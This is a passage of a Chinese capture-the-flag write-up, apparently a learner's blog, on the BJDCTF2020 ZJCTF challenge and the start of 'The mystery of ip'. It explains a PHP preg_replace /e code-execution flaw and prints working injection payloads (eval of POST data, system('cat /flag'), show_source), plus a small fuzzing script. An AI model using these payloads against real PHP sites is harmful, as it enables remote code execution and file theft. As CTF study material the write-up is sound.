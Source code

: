 GET`id`参数，然后把`session`设置为`$id`,`reg_replace()`中`/e`模式为可执行模式

学习的时候还学到一个`fuzz`脚本，最近要持续学习编程，贴出来学习

```
import requests

for i in range(0,256):
	url=""+chr(i) 

	r=requests.get(url)
	if '(被替换的内容)' in r.vontent:
		print str(i)+':'+chr(i) 
```

在PHP中，对于传入的非法的 $_GET 数组参数名，会将其转换成下划线，这就导致我们正则匹配失效

> [[BJDCTF2020]ZJCTF，不过如此](https://www.cnblogs.com/wangtanzhi/p/12328083.html)

`/next.php?\S*=${getflag()}&cmd=show_source(%22/flag%22);`
`next.php?\S*=${eval($_POST[wtz])} POST： wtz=system("cat /flag");`#其中的wtz可以自定义，这里是这位博主的缩写

顺便复习一下刚刚学的几个函数：`readfile(),file_get_contents(),highlight_file()`都可以读出flag

![在这里插入图片描述](img/20eeed7fe2cfe4498f3e619d25d2b208.png)
**旧友新朋！！！！**

# [BJDCTF2020]The mystery of ip

![在这里插入图片描述](img/9ad20eac412139a4e411c52cdddd482c.png)
界面很有意思，左上角三个选项，主页，flag，hint
